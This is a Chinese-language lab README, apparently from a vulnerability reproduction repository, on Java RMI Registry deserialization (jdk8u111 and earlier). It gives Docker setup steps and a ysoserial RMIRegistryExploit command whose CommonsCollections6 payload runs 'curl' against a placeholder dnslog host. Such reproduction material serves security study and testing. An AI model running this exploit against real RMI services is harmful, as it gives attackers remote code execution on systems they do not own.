

# Java RMI Registry 反序列化漏洞 (<=jdk8u111)

## 漏洞描述

Java Remote Method Invocation 用于在 Java 中进行远程调用。RMI 存在远程 bind 的功能（虽然大多数情况不允许远程 bind），在 bind 过程中，伪造 Registry 接收到的序列化数据（实现了 Remote 接口或动态代理了实现了 Remote 接口的对象），使 Registry 在对数据进行反序列化时触发相应的利用链（环境用的是 commons-collections:3.2.1）。

## 环境搭建

执行如下命令编译及启动 RMI Registry 和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip` 是服务器 IP，客户端会根据这个 IP 来连接服务器。

环境启动后，RMI Registry 监听在 1099 端口。

## 漏洞复现

通过 ysoserial 的 exploit 包中的 RMIRegistryExploit 进行攻击

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 CommonsCollections6 "curl your-dnslog-server"
```



Registry 会返回报错，但命令会正常执行。可以看到 dnslog 成功接收请求。


